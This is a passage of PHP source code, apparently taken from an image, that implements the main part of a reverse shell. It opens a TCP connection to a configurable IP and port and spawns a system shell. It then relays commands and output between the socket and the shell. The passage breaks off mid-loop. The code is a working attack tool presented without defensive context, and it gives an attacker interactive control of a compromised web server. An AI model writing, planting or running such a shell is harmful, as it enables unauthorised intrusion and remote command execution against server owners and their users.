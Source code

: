 ```
//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
```